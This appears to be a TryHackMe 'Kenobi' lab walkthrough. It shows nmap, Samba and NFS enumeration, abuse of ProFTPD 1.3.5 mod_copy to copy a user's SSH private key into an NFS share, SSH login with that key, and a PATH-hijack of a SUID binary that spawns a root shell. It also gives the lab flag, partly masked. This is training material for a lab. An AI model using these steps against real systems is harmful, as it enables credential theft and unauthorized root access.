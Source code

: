 ```yaml
---
title: 'Kenobi - TryHackMe Walkthrough'
date: 2020-06-25 00:00:00
featured_image: '/images/posts/THMlogo.png'
excerpt: Exploiting a Linux machine and enumerate Samba for shares, manipulate proftpd and escalate privileges with path variable manipulation
---
```

![](/images/posts/kenobi-thm.png)

### Goal
- Exploiting a Linux machine.
- Enumerate Samba for shares, manipulate proftpd and escalate privileges with path variable manipulation

### Reconnaissance
 With nmap scan found the below ports are open ports and running services on the target:   

```bash
  $ nmap 10.10.143.1 -vvv
    PORT     STATE SERVICE      REASON
    21/tcp   open  ftp          syn-ack
    22/tcp   open  ssh          syn-ack
    80/tcp   open  http         syn-ack
    111/tcp  open  rpcbind      syn-ack
    139/tcp  open  netbios-ssn  syn-ack
    445/tcp  open  microsoft-ds syn-ack
    2049/tcp open  nfs          syn-ack
```

### Samba
Samba allows end users to access the files, printers and commonly shared resources on the intra and internet. Often referred as Network File System.
It is based on *common client/server protocol of Server Message Block (SMB)*.
**Note**: SMB is developed only for Windows, so without Samba other than Windows platforms would be isolated in the network.  

The server has Samba running, so enumerating for shares:

` nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.143.1 `

Found below user names and their paths:  
guest - C:\tmp  
anonymous - C:\home\kenobi\share  
print  - \var\lib\samba\printers  

There is a `log.txt` file under anonymous id which contains SSH, FTPd and other information.


    nmap  -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.48.174

    PORT    STATE SERVICE
    111/tcp open  rpcbind
    | nfs-showmount:
    |_  /var *

The `/var` location is available to mount.

### Exploiting the FTP service
With a simple netcat, we can connect to FTPd service and get the version it is running.
```bash
$ nc 10.10.48.174 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.174]
```

From above, we can see the proFTPD is running on 1.3.5 version.

Lets see if there are any exploits available for proFTPD 1.3.5

    $ searchsploit proftpd 1.3.5
    --------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                     |  Path
    --------------------------------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                          | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                | linux/remote/36803.py
    ProFTPd 1.3.5 - File Copy                                                                          | linux/remote/36742.txt
    --------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
Using the mod copy exploit, we can copy the private key that we see in the log.txt to a location where we can access:

    nc 10.10.48.174 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.174]

    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful
Mount the /var on our system to access the file:

    sudo mount 10.10.48.174:/var /mnt/kenobiNFS/

Copy the mnt/kenobiNFS/tmp/id_rsa to a directory and then ssh into the server

    ssh -i id_rsa kenobi@10.10.48.174

### Privilege Escalation  

Finding any abnormal files with SUID bit:

    find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
    -rwsr-xr-x 1 root root 94240 May  8  2019 /sbin/mount.nfs
    -rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
    -rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
    -rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
    -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6

From the above, we can see the `/usr/bin/menu` seems a custom program and lets see if we can do any on this.

The functionality of this custom program seems checking  web connection using `curl`, kernel version and ip status using `ifconfig`.

    kenobi@kenobi:~$ /usr/bin/menu

    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :1
    HTTP/1.1 200 OK
    Date: Mon, 29 Jun 2020 22:38:57 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
    ETag: "c8-591b6884b6ed2"
    Accept-Ranges: bytes
    Content-Length: 200
    Vary: Accept-Encoding
    Content-Type: text/html

    kenobi@kenobi:~$ /usr/bin/menu

    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :2
    4.8.0-58-generic
    kenobi@kenobi:~$ /usr/bin/menu

    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :3
    eth0      Link encap:Ethernet  HWaddr 02:29:8f:02:e1:de  
              inet addr:10.10.96.188  Bcast:10.10.255.255  Mask:255.255.0.0
              inet6 addr: fe80::29:8fff:fe02:e1de/64 Scope:Link
              UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
              RX packets:2405 errors:0 dropped:0 overruns:0 frame:0
              TX packets:2269 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1000
              RX bytes:155505 (155.5 KB)  TX bytes:3081289 (3.0 MB)

    lo        Link encap:Local Loopback  
              inet addr:127.0.0.1  Mask:255.0.0.0
              inet6 addr: ::1/128 Scope:Host
              UP LOOPBACK RUNNING  MTU:65536  Metric:1
              RX packets:214 errors:0 dropped:0 overruns:0 frame:0
              TX packets:214 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1
              RX bytes:15541 (15.5 KB)  TX bytes:15541 (15.5 KB)

- Using the environment variable manipulation we can manipulate the command to execute with our custom command.
- As the "status check" is using the curl command, we create a dummy curl file  `/tmp/curl` which executes `/bin/sh`. The path `/tmp` will be added to start of the `PATH` variable.  When a binary is called, it will  always check from left to right and our `/tmp/curl` will be picked up.
- As `/usr/bin/menu` has the effective user as root, our command will get execute with root which in turn spawns a root shell.  

```bash
    kenobi@kenobi:/tmp$ echo /bin/sh > curl
    kenobi@kenobi:/tmp$ chmod 755 curl
    kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
    kenobi@kenobi:/tmp$ echo $PATH
    /tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
    kenobi@kenobi:/tmp$ /usr/bin/menu
    ***************************************
    1. status check
    2. kernel version
    3.  ifconfig
    ** Enter your choice :1
     # id
    uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

### CTF
The flag in /root/root.txt is `177b3cd8562--------2721c28381f02`
